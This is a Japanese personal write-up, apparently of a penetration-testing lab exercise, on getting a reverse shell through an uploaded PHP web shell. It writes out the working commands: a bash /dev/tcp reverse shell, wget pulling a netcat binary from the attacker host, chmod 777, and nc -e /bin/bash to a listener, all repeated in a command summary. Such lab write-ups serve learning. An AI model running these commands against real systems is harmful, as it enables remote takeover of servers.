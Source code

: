 ## Exp3で確認した脆弱性を利用して、リバースシェルを取得してください。
  
もうここまできたらこんな問題は楽勝でしょ。  
ってことで甘く見てたら、また失敗  
  
例のごとく、ローカル側で待ち受けてリバースシャルのコマンド叩いてうまくいかず。  
  
```bash
nc -lvnp 1234

```
  
```bash
172.20.15.28/uploads/web1.php?cmd=bash -i >& /dev/tcp/10.15.0.6/1234 0>&1

```
  
まぁこれでだめなら、`netcat`配送して、`ncコマンド`でいけばいいや。  
今はダメな理由を追ってる場合じゃねー  
ということで、`wget`  
  
```bash
172.20.15.28/uploads/web1.php?cmd=wget -O /tmp/nc http://10.15.0.6:1234/nc

```
  
置く場所は、`/tmp`、ディレクトリを指定して名前を付けてダウンロードするときは、`-O`。  
実は総合演習時、ずっと`-o（小文字）`をオプションに指定していて、ダウンロードした時のヘッダーみたいな`ログ`ファイルを永遠製造して時間を食ったので、間違えないように気を付けた。  
  
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
172.20.15.28 - - [06/Jun/2024 15:12:01] "GET /nc HTTP/1.1" 200 -

```
  
ダウンロードもうまくいってるっぽいので、いざ`リバースシェル`!  
  
```bash
172.20.15.28/uploads/web1.php?cmd=/tmp/nc -nv 10.15.0.6 1234 -e /bin/bash

```
  
`bash`コマンドの方もさりながら、いい加減そらで書けるようになった。  
しかも佐久間さんのおかげで、'>'の処理についても理解しながらできるので、何をどうすればいいか暗記じゃなくて理解として記述できるようにはなってきた。  
改めて佐久間さんは偉大だった。  
はやく痛風治るように今週末神社に祝詞を奏上しに行こうと決意を新たにし、実行  
  
・・・・・？  
張れない。  
もちろんローカル側はリッスン状態で待ち構えている。  
はぁ一難去ってまた一難このことだわ。とため息が出た瞬間、  
「実行権限ねーじゃん」ってことに気づき権限変更  
  
```bash
172.20.15.28/uploads/web1.php?cmd=chmod 777 /tmp/nc

```
  
`怒りの777`喰らえ！ってことで、`nc`無双モードにさせたので、いざ実行  
  
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.15.0.6] from (UNKNOWN) [172.20.15.28] 40224

```
  
無事、貼れて心も晴れました。  
てゆうか、今回はすぐに気づいたからいいものの、凡ミスの多さにほとほとあきれる。  
今回はリバースシェルを張るというお題からフラグは共通の`OK`ということで、Go to next..  
  
## コマンド
  
```bash
nc -lvnp 1234

172.20.15.28/uploads/web1.php?cmd=bash -i >& /dev/tcp/10.15.0.6/1234 0>&1

172.20.15.28/uploads/web1.php?cmd=wget -O /tmp/nc http://10.15.0.6:1234/nc

┌──(kali㉿kali)-[~/Desktop]
└─$ python -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
172.20.15.28 - - [06/Jun/2024 15:12:01] "GET /nc HTTP/1.1" 200 -

172.20.15.28/uploads/web1.php?cmd=/tmp/nc -nv 10.15.0.6 1234 -e /bin/bash

172.20.15.28/uploads/web1.php?cmd=chmod 777 /tmp/nc

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.15.0.6] from (UNKNOWN) [172.20.15.28] 40224

```
